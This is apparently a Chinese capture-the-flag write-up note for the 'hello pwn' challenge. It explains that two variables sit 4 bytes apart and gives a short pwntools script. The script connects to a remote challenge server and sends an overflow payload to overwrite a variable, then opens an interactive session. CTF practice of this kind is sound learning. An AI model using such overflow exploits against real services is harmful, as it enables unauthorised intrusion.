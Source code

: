 ## hello pwn

![hello_pwn](C:\Users\liu\Desktop\Notes\images\hello_pwn.png)

由逆向可知两个变量地址相差4，和上题一样覆盖就好

```python
from pwn import *

# p = process("./hello_pwn")
p = remote("111.198.29.45", 48832)

p.recvuntil("lets get helloworld for bof\n")
p.sendline("a" * 4 + "\x61\x61\x75\x6e")
p.interactive()

```

